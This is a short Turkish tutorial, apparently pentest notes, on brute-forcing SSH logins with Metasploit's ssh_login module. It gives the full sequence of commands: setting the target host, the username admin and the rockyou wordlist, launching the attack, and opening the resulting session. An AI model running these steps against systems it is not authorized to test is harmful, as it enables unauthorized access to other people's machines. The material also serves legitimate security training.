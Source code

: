 Metasploit Framework, SSH servisinde kaba kuvvet saldırısı için hazır bir modül barındırır.  

---

## 🔍 Modül Arama
```bash
search ssh
```
- Birçok SSH modülü listelenir.  
- Bizim için uygun olan:  
```bash
use auxiliary/scanner/ssh/ssh_login
```

---

## ⚙️ Modül Konfigürasyonu
Mevcut seçenekleri görmek için:  
```bash
show options
```

**Önemli parametreler:**
- `RHOSTS` → Hedef IP  
- `USERNAME` → Belirli bir kullanıcı adı  
- `USER_FILE` → Kullanıcı adı wordlisti  
- `PASSWORD` → Belirli parola  
- `PASS_FILE` → Parola wordlisti  
- `VERBOSE` → Denemelerin görünürlüğü  

**Örnek ayarlar:**
```bash
set RHOSTS <hedef ip>
set VERBOSE true
set USERNAME admin
set PASS_FILE /usr/share/wordlists/rockyou.txt
```

---

## 🚀 Saldırıyı Başlatmak
```bash
exploit
```

- Araç, wordlist’teki parolaları tek tek dener.  
- Eğer doğru kombinasyon bulunursa oturum açılır.  

---

## 📂 Başarılı Sonuçlar
- Aktif sessionları listelemek:  
```bash
sessions -l
```

- Belirli bir session’a bağlanmak:  
```bash
sessions 1
```

✅ Artık hedef makineye SSH üzerinden erişim sağlanmıştır.  
